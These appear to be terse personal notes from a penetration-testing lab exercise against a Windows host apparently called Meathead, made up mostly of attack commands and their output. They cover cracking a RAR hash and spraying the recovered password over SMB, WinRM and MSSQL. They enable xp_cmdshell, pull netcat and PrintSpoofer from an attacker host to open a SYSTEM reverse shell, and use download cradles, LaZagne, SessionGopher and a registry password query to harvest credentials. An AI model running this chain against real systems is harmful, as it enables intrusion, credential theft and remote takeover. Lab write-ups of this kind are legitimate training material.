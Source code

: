 ### FTP
```
cat palindromes.txt | sed -e 's/\"//g' -e 's/, /\n/g'
```

no luck above just crack it then.

```
hashcat -m 13000 --force -a 0 rar.hash /usr/share/wordlists/rockyou.txt
```

letmeinplease

### Extract the rar file then
sa
EjectFrailtyThorn425

### Ports scan since autorecon failed
```
docker run -it --rm --name rustscan rustscan/rustscan:1.10.0 192.168.243.70
```

PORT     STATE SERVICE        REASON
80/tcp   open  http           syn-ack
135/tcp  open  msrpc          syn-ack
139/tcp  open  netbios-ssn    syn-ack
445/tcp  open  microsoft-ds   syn-ack
1221/tcp open  sweetware-apps syn-ack
1435/tcp open  ibm-cics       syn-ack <- mssql
3389/tcp open  ms-wbt-server  syn-ack
5985/tcp open  wsman          syn-ack

### Mysql it
```
mysql -u sa -p'EjectFrailtyThorn425' -h $IP -P 1435
```

for u in $(cat names.txt); do mysql -u $u -p'EjectFrailtyThorn425' -h $IP -P 1435; done

for u in $(cat names.txt); do smbmap -u $u -p 'EjectFrailtyThorn425' -H $IP; done

crackmapexec smb $IP -u names.txt -p EjectFrailtyThorn425

crackmapexec winrm $IP -u names.txt -p EjectFrailtyThorn425

### Brute force it as mysql failed to conncect
```
crackmapexec winrm $IP -d Meathead -u -p EjectFrailtyThorn425
```

### ...LOL... Actually MSSQL
##### sqsh is working too.
❯ sqsh -S $IP:1435 -U sa -P EjectFrailtyThorn425
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
1> 

##### BUT mssqlclient is better!
```bash
❯ /usr/bin/impacket-mssqlclient sa@$IP -port 1435 -windows-auth
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[-] ERROR(MEATHEAD\SQLEXPRESS): Line 1: Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication.
                                                                                                                                                                                            
❯ /usr/bin/impacket-mssqlclient sa@$IP -port 1435
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(MEATHEAD\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MEATHEAD\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> enable_xp_cmdshell
```

certutil failed. should go with iwr or smbserver
```
SQL> xp_cmdshell certutil -urlcache -f http://192.168.49.243/nc.exe c:\users\Public\nc.exe
[-] ERROR(MEATHEAD\SQLEXPRESS): Line 1: An error occurred during the execution of xp_cmdshell. A call to 'CreateProcess' failed with error code: '5'.
```

### Get foothold and root
```
xp_cmdshell c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest "http://192.168.49.243/nc.exe" -OutFile "C:\Users\Public\Downloads\alvin.exe"

xp_cmdshell c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest "http://192.168.49.243/PrintSpoofer64.exe" -OutFile "C:\Users\Public\Downloads\PrintSpoofer64.exe"

xp_cmdshell C:\Users\Public\Downloads\PrintSpoofer64.exe -c "C:\Users\Public\Downloads\alvin.exe 192.168.49.243 1435 -e cmd"
```

### Intened ways
##### Jane -> Admin
```
xp_cmdshell C:\Users\Public\Downloads\alvin.exe -e cmd 192.168.49.243 80
```

certutil -urlcache -f http://192.168.49.243:8080/lazagne.exe C:\Users\Public\lazagne.exe
certutil -urlcache -f http://192.168.49.243:8080/lazagne.exe C:\Users\Public\Downloads\lazagne.exe

nope, and IEX is for string. So go with IWR

```
powershell IEX(New-Object Net.WebClient).DownloadString('http://192.168.49.243:8080/lazagne.exe');
powershell IEX(New-Object Net.WebClient).DownloadString('http://192.168.49.243:5985/lazagne.exe');
```

```
powershell IWR http://192.168.49.243:5985/lazagne.exe -OutFile alvinLZG.exe <- Defender deleted it, so does some payloads generated by msf

C:\Users\Public\Downloads\lazagne.exe
```

##### Try SessionGopher
powershell IWR http://192.168.49.243:5985/SessionGopher.ps1 -OutFile alvin.ps1
But nothing
```
PS C:\Users\Public\Downloads> Import-Module .\alvin.ps1
Import-Module .\alvin.ps1
PS C:\Users\Public\Downloads> Invoke-SessionGopher -Target Meathead
Invoke-SessionGopher -Target Meathead

          o_       
         /  ".   SessionGopher
       ,"  _-"      
     ,"   m m         
  ..+     )      Brandon Arvanaghi
     `m..m       Twitter: @arvanaghi | arvanaghi.com
  
[+] Digging on Meathead...
PS C:\Users\Public\Downloads> dir
```

##### Either winpeas or mannaully to get credentials
search the registry fo key names and passwords
```
reg query HKLM /f pass /t REG_SZ /s
```

HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control
    CurrentPass    REG_SZ    TwilightAirmailMuck234


### 3389 to Jane
Verify the version of Plantronics and exploit it with [47845](!https://www.exploit-db.com/exploits/47845)

View -> Details -> check the box 'Hidden items'

jane|advertise|C:\Windows\System32\cmd.exe
